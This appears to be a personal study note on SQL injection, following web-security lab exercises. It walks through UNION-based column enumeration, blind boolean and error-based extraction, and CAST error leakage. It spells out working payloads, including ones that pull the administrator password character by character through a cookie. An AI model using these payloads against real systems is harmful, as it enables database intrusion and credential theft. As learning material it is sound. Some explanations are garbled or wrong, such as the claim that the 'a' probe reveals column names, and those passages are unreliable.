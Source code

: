 ### Introduction
SQLI in an input that allows the attacker to send queries to the database. The risk are several like **generate data breach** or even alter the database.
Detection of sqli could be with the following steps
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
### Confirming
We could detect if there's any issue unsanitized because a single quote cause an error, but you could check a wordlist to this too.
Here some example [[lab-login-bypass]], [[lab-retrieve-hidden-data]]

### How much column are there
IMagine you got the following query retrieving data from the DB
```url
SELECT name, description FROM products WHERE category = 'Gifts'
```
Now if we want to use the db to retrieve all the data from a column
```sql
' UNION SELECT username, password FROM users--
```
So we are closing the `'gift'` and retrieving the data using UNION, this keyword enables to append the results to the original query. For example:

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

So to carry out this query ensure to answer this two questions:
1. How many columns are being returned from the original query.
2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

To know how much columns there are you could uses the `ORDER BY` query (it doesn't really matters whether it is in uppercase or lowercase because SQL language is case-insensitive).
```SQL
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3--
```
THis is usefule to determine the number of columns, because this no needs you ton know the name of the columns, and if you exceed the number of columns it retrieves an error such as:
`The ORDER BY position number 3 is out of range of the number of items in the select list.`
or not necessarily an error but some difference in the response for sure.
And the second method involves to use `UNION SELCT` 
```SQL
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL--
```
If the number of nulls mismatch the numbers of columns, the sams as before, it will retrive some kind on anomalous

[[lab-determine-number-of-columns]]
#### The sintax may vary assuming the different SQL tecnology
https://portswigger.net/web-security/sql-injection/cheat-sheet

### What's the column name
To guess the name of the column we will use the samne union select query with the null, but we should go specifying the name of the column, so if something goes wrong it throws an error or something, if it is correct it desplay correctly, so
```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```
if the column start with the letter a it display, in the other case it throws an error, this way we could enumerate the column names

[[]]

## Blind SQL
### What blind SQL is?
Blind SQL occurs whne the application is vulnerable to SQLI but in the response you can see anything from de data base, that's why UNION attack will fail, because that's used to see how many columns there are. 
#### Bolean-based
##### Example
**For example** an application that uses a cookie to determine if you're a known user, so this application uses the following query `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`, that's is not reflecting in any kind of data, but when you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response, this behavior is what we refer with **blind sql**, we could submit an `…xyz' AND '1'='1` and it returns *welcome back* because the condition is true, so on `…xyz' AND '1'='2` don't retrieve any because the condition is false, thereby you could use it to retrieve data: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm` This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.
Next, we send the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`. And eventually continue the process to determine the username-password

[[lab-conditional-responses]]
#### Error-based
Sometimes there's no conditional that modifies nothing in the content responses, but it doesn't mean that the conditional will not modify anything in the response. In such cases we could use the bolean to cause an error. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.
##### Syntax of the condition
The conditionals in sql are not more different that in others languages, the syntax is as follows:
```sql
CASE WHEN <condition> THEN <value_if_true> ELSE <value_if_false> END
```
- **`WHEN <condition>`**: The condition being tested. If it’s true, the expression after `THEN` is executed.
- **`THEN <value_if_true>`**: This is what will be returned if the condition is true.
- **`ELSE <value_if_false>`**: This is what will be returned if the condition is false.
- **`END`**: Marks the end of the `CASE` statement.

#### Example
Following the syntax we construct the following query
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END
```
So the **condition** is **`1=2`** but that is false, so the expression after `then` (which is `1/0`) will not be executed, and then will skip to the next **clause**, which is `a`. So the condition it's equal to 'a' 
```sql
CASE WHEN (1=2) THEN 1/0 ELSE 'a' END == 'a'
```

But supposing we got **`1=1`** as the **condition** instead, the "**value_if_true**", which is **`1/0`**, will be evaluated, and that would cause that the application throws an error.

So we will using a conditional to display an error from the database of the backend, this way we got the query. Imagine we got the same cookie. So we use the cookie as a truly, then the 'AND', which means both conditions should be true. 
```cookie
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```
Now we could combine the function from the previous lab to enumerate
```cookie
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### Cast
When we use the cast built-in function to force to change the data type from a value, if we inject this in SQLI normally will return an error, which might return sensitive data in that verbose error.
###### For Example
```sql
SELECT CAST((SELECT username FROM users LIMIT 1) AS int)
```
If the `username` column contains the text `"admin"`, the database will attempt to cast this text to an integer and fail. The error message might look like:

```stderr
ERROR: invalid input syntax for type integer: "admin"
```
In this case we want to guess some data and it reflect the data itself



